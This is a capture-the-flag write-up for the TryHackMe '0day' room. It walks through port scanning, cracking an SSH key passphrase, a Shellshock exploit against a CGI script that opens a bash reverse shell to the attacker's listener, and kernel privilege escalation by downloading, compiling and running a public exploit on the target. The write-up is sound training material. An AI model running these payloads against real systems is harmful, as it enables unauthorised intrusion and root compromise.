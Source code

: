 # 0day

**Room Link:** [https://tryhackme.com/room/0day](https://tryhackme.com/room/0day)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (14) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (434).png" alt=""><figcaption></figcaption></figure>





This appeared to be a rabbit hole but I found a key and was able to bruteforce the password for it.

<figure><img src="../../.gitbook/assets/image (427).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
chmod 600 id_rsa
/opt/john/ssh2john.py id_rsa > id_john.txt
john --wordlist=/usr/share/wordlists/rockyou.txt id_john.txt 
```

<figure><img src="../../.gitbook/assets/image (428).png" alt=""><figcaption></figcaption></figure>

I found a cgi file. i tried checking if it was vulnerable to shellshock which wasn't working but it was vulnerable.&#x20;

**Kali**

```
gobuster dir -u http://$VICTIM/cgi-bin/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt,cgi
```

<figure><img src="../../.gitbook/assets/image (435).png" alt=""><figcaption></figcaption></figure>

## Initial Shell

**Link:** [https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi)

**Kali#1**

```
nc -lvnp 4242
```

**Kali #2**

```
curl -H 'Cookie: () { :;}; /bin/bash -i >& /dev/tcp/$KALI/4242 0>&1' http://$VICTIM/cgi-bin/test.cgi 
```

<figure><img src="../../.gitbook/assets/image (429).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```



## Privilege Escalation

**Victim**

```
uname -a 
```

<figure><img src="../../.gitbook/assets/image (431).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
searchsploit 3.13.0
searchsploit -m linux/local/37292.c
gcc 37292.c -o exploit
python2 -m SimpleHTTPServer 81
```

<figure><img src="../../.gitbook/assets/image (430).png" alt=""><figcaption></figcaption></figure>

The exploit didn't work as it's complaining that it can't create dynamic library

**Victim**

```
cd /tmp/
wget http://10.10.91.55:81/exploit
chmod +x exploit
./exploit
```

<figure><img src="../../.gitbook/assets/image (432).png" alt=""><figcaption></figcaption></figure>

To fix this we just had to export the binpath from the machine

**Victim**

```
export PATH=/usr/local/bin:/usr/local/sbin:/usr/bin:/usr/sbin:/bin:/sbin
./exploit
```

<figure><img src="../../.gitbook/assets/image (433).png" alt=""><figcaption></figcaption></figure>



